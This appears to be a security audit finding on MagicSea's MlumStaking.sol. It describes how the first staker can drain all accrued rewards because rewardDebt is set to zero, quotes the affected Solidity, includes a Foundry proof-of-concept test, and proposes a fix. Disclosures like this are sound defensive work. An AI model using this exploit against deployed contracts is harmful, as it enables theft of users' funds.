 Big Violet Bee

High

# First staker in `MlumStaking.sol` can steal all the rewards

## Summary
If there are rewards in the contract but the `_stakedSupply` is 0, they can be stolen.
The problem is because when creating a position and there are no other stakers the `_stakedSupply` is 0 and `_accRewardsPerShare` is 0 as well and this will make the `rewardDebt` to 0 as well, which leads to the attack vector being possible. This attack is possible because on IOTA EVM the transactions are executed at random so there is a chance that the first staker transaction is executed after the rewards.

## Vulnerability Detail
Let's assume that the transaction for the rewards gets processed before the malicious first staker creating position transaction

Here is what the attacker will do:

He creates a position and for `lockDuration` he passes 1 second, he does this so he can withdraw his staking tokens almost immediately after the attack.

In `createPosition` when the `updatePool` is called it will skip setting the `_accRewardsPerShare`  because
`_stakedSupply` is 0

```solidity

>> if (lastRewardBalance == rewardBalance || _stakedSupply == 0) {
>>          return;
        }

        uint256 accruedReward = rewardBalance - lastRewardBalance;

>>      _accRewardsPerShare =
            accRewardsPerShare +
            ((accruedReward * (PRECISION_FACTOR)) /
                (_stakedSupplyWithMultiplier));
```
so his `rewardDebt` will be set to 0 in the position struct in `createPosition()` here:

```solidity
 _stakingPositions[currentTokenId] = StakingPosition({
            initialLockDuration: lockDuration,
            amount: amount,
>>          rewardDebt: (amountWithMultiplier * (_accRewardsPerShare)) /
                (PRECISION_FACTOR),
            lockDuration: lockDuration,
            startLockTime: _currentBlockTimestamp(),
            lockMultiplier: lockMultiplier,
            amountWithMultiplier: amountWithMultiplier,
            totalMultiplier: lockMultiplier
        });
```

then he will call `harvestPosition()` which before calling the internal `_harvestPosition()` it calls the `updatePool` again which this time will set the `_accRewardsPerShare`
So when he harvests it will calculate his `pending` like this:

```solidity
 uint256 pending = (position.amountWithMultiplier *
            _accRewardsPerShare) /
            PRECISION_FACTOR -
            position.rewardDebt;
```
It should return 0 but it will not because
 `(position.amountWithMultiplier * _accRewardsPerShare) / PRECISION_FACTOR` is not equal to ` position.rewardDebt`
 So `pending` will be all of the rewards in the contract

Add the following test to `MlumStaking.t.sol`:

ALICE will be the malicious user:
```solidity

 function testStealAllRewards() public {
        _stakingToken.mint(ALICE, 1 ether);
        _stakingToken.mint(BOB, 1 ether);
        _rewardToken.mint(address(_pool), 1000e6);

        vm.startPrank(ALICE);
        _stakingToken.approve(address(_pool), 1 ether);
        _pool.createPosition(1 ether, 1 seconds);
        vm.stopPrank();

        vm.startPrank(BOB);
        _stakingToken.approve(address(_pool), 1 ether);
        _pool.createPosition(1 ether, 90 days);
        vm.stopPrank();

        vm.prank(ALICE);
        _pool.harvestPosition(1);

        vm.prank(BOB);
        _pool.harvestPosition(2);

        console.log("Balance of Alice: ", _rewardToken.balanceOf(ALICE));
        //Balance of Alice:  999999999
        console.log("Balance of Bob: ", _rewardToken.balanceOf(BOB));
        //Balance of Bob:  0
    }

```

## Impact
Impact is High because the fist staker managed to get rewards that he should not even have acquired

## Code Snippet
https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L377

https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L574

https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L442

## Tool used

Manual Review

## Recommendation
The easiest way to solve this is by creating a fake position to the owner in the initialize function